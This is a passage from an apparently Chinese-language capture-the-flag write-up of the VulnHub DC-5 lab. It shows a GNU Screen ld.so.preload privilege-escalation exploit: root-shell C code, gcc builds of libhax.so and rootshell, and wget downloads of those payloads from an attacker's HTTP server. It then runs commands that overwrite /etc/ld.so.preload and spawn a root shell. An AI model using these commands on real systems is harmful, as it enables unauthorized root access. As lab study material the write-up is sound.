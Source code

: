```bash
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF

gcc -fPIC -shared -ldl -o ./libhax.so ./libhax.c
gcc -o ./rootshell ./rootshell.c
```

把编译好的 libhax.so 和 rootshell 从 kali 传给 靶机
```
python -m SimpleHTTPServer 8080
```

```
cd /tmp
wget 192.168.141.134:8080/libhax.so;wget 192.168.141.134:8080/rootshell
```

运行 poc
```
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
whoami
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC5/12.png)
